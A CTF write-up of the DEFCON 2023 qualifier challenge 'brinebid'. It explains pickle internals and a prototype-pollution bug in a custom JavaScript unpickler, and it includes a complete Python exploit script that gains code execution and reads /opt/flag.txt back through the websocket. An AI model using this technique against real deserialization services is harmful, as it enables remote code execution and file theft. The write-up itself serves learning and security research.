

# brinebid


On May 27 until May 29, I had the pleasure to join [Shellphish](https://twitter.com/Shellphish) in the DEFCON CTF Qualifiers of 2023.
I wanted to highlight one of the challenges called **brinebid** that I ended up working on as well as finding and submitting the flag for.
It is a really interesting challenge, combining web security with some reverse engineering a virtual machine (VM), as well as exploiting a vulnerability in the VM to get arbitrary code execution.


If you want to follow along, you can download the challenge files below:

<a class="btn btn-primary" href="downloads/brinebid.zip"><i class="fas fa-download"></i> Download Challenge</a>


## Orientation

### A client application written in Python

The main application that we are given is a Python program that implements some kind of auction program where you can buy and sell properties in Vegas.

{: w="75%" }

While the ASCII art UI is pretty cool, the application itself is not really that interesting, except for the following detail.
It communicates with a server through a websocket. 
Every message type has its dedicated class:


The interesting part of this, is that every message object is serialized and deserialized using `pickle`:



This has some nice security implications, which we will dive into now.

### A refresher on Python Pickle

Pickle is a Python-specific package that allows you to serialize any Python object to a sequence of bytes and back.
The format that it uses is quite interesting.
Rather than having an object notation (e.g., similar to JSON) or a schema that it follows per type of object (e.g., similar to protobuf), it is a format that works with stack-based instructions to instantiate and initialize new objects.
In essence, this means a Pickle deserializer is similar to a basic virtual machine (VM) interpreter that decodes and evaluates all the instructions in the pickle byte string, and returns the final object that is produced in the end.

A typical example pickle program can be found below:

```bash
PROTO      3                        # protocol version 3

GLOBAL     '__main__ MyClass'       # Instantiate a new __main__.MyClass object without any arguments.
EMPTY_TUPLE
NEWOBJ

EMPTY_DICT                          # Create a new empty dict.
MARK
    BINUNICODE 'x'                  # Set "x" to 123
    BININT1    123

    BINUNICODE 'y'                  # Set "y" to "hello"
    BINUNICODE 'hello'

    BINUNICODE 'z'                  # Set "z" to (1, 2, 3)
    BININT1    1
    BININT1    2
    BININT1    3
    TUPLE3

    SETITEMS
BUILD                               # Move all key-value pairs of the dict into the MyClass object.

STOP                                # Return
```

Some basic instructions that you can see in this program are instructions that push primitives such as integers (`BININT1 123`) and strings (`BINUNICODE 'hello'`) on the stack.
We can also see it can push new empty tuples (`EMPTY_TUPLE`) and dictionaries (`EMPTY_DICT`).
New objects of arbitrary types can also be instantiated (`GLOBAL` followed by `NEWOBJ`), and fields within objects can be set (e.g., using `SETITEM` and/or `BUILD`).
By composing these instructions in the right order with the right values, a "program" can be created that instantiates a new object of a specific type and assigns all necessary fields within the object to their appropriate values.

For completeness, the example Pickle program is equivalent to the following Python code instantiating a `MyClass` object:

```python
obj = MyClass()
obj.x = 123
obj.y = "hello"
obj.z = (1, 2, 3)
```

Some really nice Python modules and references that explain the format in much greater detail and allow you to play around with the format can be found below:
- [pickle](https://docs.python.org/3/library/pickle.html): The main Pickle package as used in Python.
- [pickletools](https://docs.python.org/3/library/pickletools.html#module-pickletools): Additional tooling to inspect and disassemble Pickle byte strings.
- [pickleassem](https://github.com/gousaiyang/pickleassem): Third party library to manually craft new Pickle byte strings.


The great advantage of Pickle is that it is very easy to use. 
It requires only one call to serialize any object to bytes and only one call to deserialize bytes back to any object.

```python
binary_data = pickle.dumps(obj)
new_obj = pickle.loads(binary_data)
```

However, it is often regarded as an unsafe package.
Depending on what type of object is referenced in the pickle byte-string, it may instantiate any class.
Instantiating arbitrary classes can lead to arbitrary code execution, as constructors of classes can contain any code.

But for this challenge, there is a twist.


### A server written in... Javascript?

We have a client written in Python that sends Pickled objects to the server.
When we are dealing with Pickles, we expect both the sender as well as the receiver of the pickled objects to be implemented in Python.
Indeed, Pickle is a Python-specific format, no other language can really instantiate Python objects.
However, to our surprise, we find that the server is implemented in Javascript instead!

No Javascript engine has a built-in Pickle deserializer, and as such, to be able to still send and receive messages that the client application can understand, the challenge authors included a custom `Unpickler` implementation in `main.bundle.js` that is able to deserialize Pickled objects.
In particular, when we beautify the minified Javascript code (e.g., using [beautifier.io](https://beautifier.io/)), we can see this class has a prototype that defines a method `_handle_opcode`, which is the main driving force for evaluating individual instructions in an incoming Pickle byte-string:

{: w="75%" }

Every possible message type that is sent by the client also has an equivalent Javascript class:

{: w="75%" }

Note how all the types are registered in a global `PICKLE_GLOBAL_SCOPE` field.
This is the server's way to map all names of the supported Python types to their Javascript equivalent constructors.
This also has the effect that it acts as a list of allowed types that can be referenced by the `GLOBAL` opcode, as can be seen in the implementation of this opcode in `_handle_opcode`:


What are the allowed types?
A simple search can tell us that:


It seems the list of allowed types is rather strict.
How do we get anything interesting running?


## Main Exploit Idea

In Javascript, everything is an object.
This includes the program code itself.
When you define a function, what actually happens behind the scenes is a new `Function` object is created with the provided code as its body.
Trying this in any Javascript REPL (such as NodeJS), we can see this in action:

```js
> var x = function() {
    return 1337;
  }
> x
[Function: x]
>
```

There is another way in Javascript to create such a `Function` object, and that is by initializing one explicitly using the `Function`'s constructor.
This constructor takes a string as argument, which is parsed as Javascript code and used as the body of the function:

```js
> var x = new Function("return 1337;");
[Function: anonymous]
```

Function objects can be called like any other function invocation:

```js
> x();
1337
```


If we can trick the virtual machine into creating a new `Function` object with a string that we control, and then let it call it, we have arbitrary code execution on the server side.

Two interesting Pickle opcodes seem to be able to facilitate such functionality.
If we look at the implementation of `NEWOBJ` and `REDUCE`, we see both pop both a function or a constructor from the stack, accompanied with the arguments to pass along, and then invoke them (either with the `new` keyword or without):


Thus, theoretically, we can use the `NEWOBJ` and `REDUCE` opcodes, together with an instruction like `BINUNICODE "console.log(1337)"` to both instantiate a new `Function` object, as well as call it.
This translates to roughly the following Pickle program:

```bash
GLOBAL     'Function'
BINUNICODE 'console.log(1337);'
TUPLE1
NEWOBJ
REDUCE
```

The main problem however is: How do we get the constructor of `Function` on the stack? 
As mentioned before, in the normal Pickle package, the `GLOBAL` opcode is responsible for pushing any symbol on the stack (and thus also constructors).
However, as we have also seen before, `GLOBAL` only allows for very specific types to be referenced and does not allow referencing the `Function` type (i.e., there is no `"Function"` key in `PICKLE_GLOBAL_SCOPE`).

How do we get around this?

## The Vulnerability


### Reading arbitrary fields using the GET opcode

The key insight to getting around the `PICKLE_GLOBAL_SCOPE` allow-list lies in the fact that some opcodes in the Javascript implementation of the Pickle virtual machine are not quite exactly following specification.
In particular, the implementation of the `GET` opcode is completely broken.

The `GET` opcode takes a string as operand, which is used as an identifier of a variable to read from or write to.

```shell
GET "abc"       # Push the contents of the variable with name "abc"
```

Similarly, there is a `PUT` opcode that pops a value from the stack instead, and writes it into the specified variable:

```shell
BININT 1234
PUT "abc"       # Assign 1234 to variable "abc"
```

Normally, these variables are stored somewhere in some separate temporary memory.
However, in this Javascript implementation, this memory is the `this` object itself:


Since everything in Javascript is an object, and every object in Javascript is like a dictionary, any field in an object can also be referenced by its name as a string.
This makes the following two statements equivalent:

```js
var value = this['field_name'];
var value = this.field_name; 
```

This implies `GET` can be used to read from any field defined in the `this` object, including the fields defined in the `Unpickler` type itself, not just the variables introduced by the Pickle byte-string.


### Object Prototypes and Constructors

Why is this bad? 

`Unpickler` is a type defined in Javascript, and thus it has an [Object prototype](https://developer.mozilla.org/en-US/docs/Learn/JavaScript/Objects/Object_prototypes).
A prototype is essentially a template that every instance of an object in Javascript is initialized with.
Every prototype defines a special field called `constructor`, which, as its name implies, contains the function that constructs a new instance of the type.
We can verify this in a REPL:

```js
> function Unpickler() { /* ... not important ... */ }
> var x = new Unpickler();
> x
Unpickler {}
> var y = new x.constructor();
> y
Unpickler {}
```

Since we can access any field in the `this` object, using a Pickle instruction like `GET "constructor"` will push the constructor of `Unpickler`:

```shell
GET "constructor"     # push this["constructor"].
EMPTY_TUPLE           # no constructor arguments.
NEWOBJ                # instantiate object.
```

This is not quite the constructor we need however. 
Indeed, we set out to find a way to create new `Function` objects, and the one we obtained builds new `Unpickler` instances instead.
However, since `Unpickler.constructor` is a function itself, and functions are objects, it is initialized with the prototype of the `Function` type, and thus also defines a `constructor`.
However, this time it contains the constructor of the `Function` type instead.
Thus, if we can find a way to access **the constructor of the constructor** of the `this` object (i.e., `this.constructor.constructor`), we end up with the constructor of the `Function` type instead, which is exactly what we need.

How do we create Pickle code that pushes `this.constructor.constructor` onto the stack?
A naive thought would be chaining two `GET` opcodes in sequence:

```shell
GET "constructor"
GET "constructor"
```

Unfortunately, this does not quite work.
Recall that the `GET` opcode is hardwired to read from the `this` object, and not from the top of stack.


Chaining two GET opcodes thus merely pushes two copies of `Unpickler.constructor`.
And while there is a `SETITEM` opcode that can write to fields in arbitrary objects on the stack, there is no `GETITEM` counterpart implemented that allows for reading fields from arbitrary objects easily.

We got stuck on this for hours, trying to find many different primitives that would eventually allow us to chain the dereferences, to no avail.


### Abusing the Super Constructor

One of the Shellphish teammates suddenly recognized something interesting.
Every Pickle class constructor was implemented with some Javascript calling a global function called `super_constructor`.
For example, the `List` class is defined as follows:


`super_constructor` happens to be the very first function that is defined in this large Javascript file:


The function first initializes the object with the template of the requested type (line 4).
Then, it obtains a superclass of the requested type (line 6).
This can be thought of as the base class similar to other object-oriented languages like Java or C#.
Finally, it calls the constructor of this superclass with the provided arguments (line 8).

This setup of emulated "object inheritance" has an interesting implication.
If we can somehow get the `super_class` variable to contain a reference to `this.constructor`, we would effectively be evaluating `(this.constructor).constructor`, which matches exactly the code we were looking to execute, and thus call the constructor of `Function`.

It so turns out we can do this by reassigning the prototype of one of the whitelisted benign types in the `PICKLE_GLOBAL_SCOPE` (such as `builtins.List`).
Similar to `constructor`, every object in Javascript also contains a special field called `prototype`, which references the object that contains the prototype that the object was based on.
If we reassign this field to the value of `this.constructor` (and this is possible, because everything in a Javascript object is fully mutable), then creating a new instance of such a type will make the call to `Object.getPrototypeOf(clazz.prototype)` in our super constructor return the prototype of `this.constructor`, which is the prototype of `Function`.
The subsequent call to `super_class.constructor.call` will therefore be equal to `(this.constructor.prototype).constructor.call`, which is exactly equivalent to calling `this.constructor.constructor`!

We can verify this in the Javascript REPL, and indeed the theory works:

{: w="75%" }

Let's go write that exploit!


## Putting it all together

To summarize all the technical details from the above, we need to implement a Pickle program that does the following:
1. Replace the `prototype` field of an allowed type constructor (such as `List`) with `this.constructor`.
2. Instantiate a new instance of this type, using the Javascript code we want to execute as a string argument.
3. Treat the created object as a function and call it.


To perform the first step in Pickle instructions, we can use the `SETITEM` opcode:


`SETITEM` allows us to write to arbitrary fields in arbitrary objects on the stack.
Similar to `GET` and `PUT`, this includes assigning values to special fields like `constructor` or `prototype`.
The first step can thus be implemented using the following Pickle code:

```shell
GLOBAL  "builtins.List"
UNICODE "prototype"
GET     "constructor"
SETITEM
```

For the second part, we need to instantiate a new `List` object with our own Javascript code.
Note that at this point we do not need to push the reference to `builtins.List` again.
This is because the previous `SETITEM` actually does not pop the object that it is modifying from the stack, which means the reference to `builtins.List` is still on the stack:

```shell
UNICODE "console.log('washi was here');"
TUPLE1
NEWOBJ
```


Finally, we need to execute it.
For this, we can simply push an empty list to signify no arguments are passed onto the function, and then use the `REDUCE` opcode to call it:

```shell
EMPTY_LIST
REDUCE
```

And that's all there is to it!
The final payload is actually quite small and not even that complicated.

We can use the `pickleassem` Python package to construct our payload easily:

```python
from pickleassem import PickleAssembler

pa = PickleAssembler(proto=3)

pa.push_global("builtins", "list")
pa.push_unicode("prototype")
pa._payload += pickleassem.GET + b"constructor\x0a"
pa.build_setitem()

pa.push_unicode("console.log('washi was here');")
pa.build_tuple1()
pa.build_newobj()

pa.push_empty_list()
pa.build_reduce()

payload = pa.assemble()
```

Then, if we send the resulting Pickle over the websocket we get the following:


While the server throws an error because of the relatively malformed Pickle code, we can clearly see that the string `washi was here` was printed as well, implying that the `console.log` call indeed executed, confirming our ability to run arbitrary Javascript code on the server!


## Final Script

We have code execution, the only tricky thing left is actually sending the contents of `/opt/flag.txt` back to us via the websocket.

It so turns out Deno (the Javascript engine running behind the scenes) defines a function `Deno.readFileSync`, allowing us to read arbitrary files on the remote system.
It also turns out that in the global scope of `main.bundle.js`, there is an object called `current_client` which defines a field `ws` holding a reference to the websocket that is used for all the communication.

Thus, we can simply use these two elements to both read `/opt/flag.txt`, and send it back to our own machine, with this Javascript one-liner:

```js
current_client.ws.send((new TextDecoder()).decode(Deno.readFileSync('/opt/flag.txt')));
```

The final script looks like the following:

```python
import urllib.parse
import base64
from websockets.sync.client import connect
import pickleassem
from pickleassem import PickleAssembler

pa = PickleAssembler(proto=3)

pa.push_global("builtins", "list")
pa.push_unicode("prototype")
pa._payload += pickleassem.GET + b"constructor\x0a"
pa.build_setitem()

pa.push_unicode("current_client.ws.send((new TextDecoder()).decode(Deno.readFileSync('/opt/flag.txt')));")
pa.build_tuple1()
pa.build_newobj()

pa.push_empty_list()
pa.build_reduce()

payload = pa.assemble()

print(payload)

ticket = "ticket{[redacted]}"
ticket_url = urllib.parse.quote(ticket)
with connect(
    "ws://localhost:8080/",
    subprotocols=[ticket_url]
) as ws:
    data = base64.b64encode(payload).decode('latin-1')
    print('sending b64 pickle:')
    print(data)
    ws.send(data)

    print("Receiving:")
    data = ws.recv()
    print(data)
    data = base64.b64decode(data)
    print(data)
  
```

... revealing the flag:


## Final words

I found this challenge to be very interesting.
While I am not typically very fond of web challenges in general, this challenge combines web security in the form of Javascript prototype pollution with some reverse engineering and bug hunting of a basic virtual machine, two topics I love.
It also taught me one or two things about the inner workings of Pickle, something I never really looked into much.

The challenge also makes me wonder why Javascript is still allowing for crucial fields like `constructor` and `prototype` to be reassigned to other values of our choice, given the serious security implications it has.
I presume it is still there for backward compatibility, but who knows...

Thanks for reading and happy hacking! And for the ones that are attending DEFCON this year, maybe I will see you in Vegas!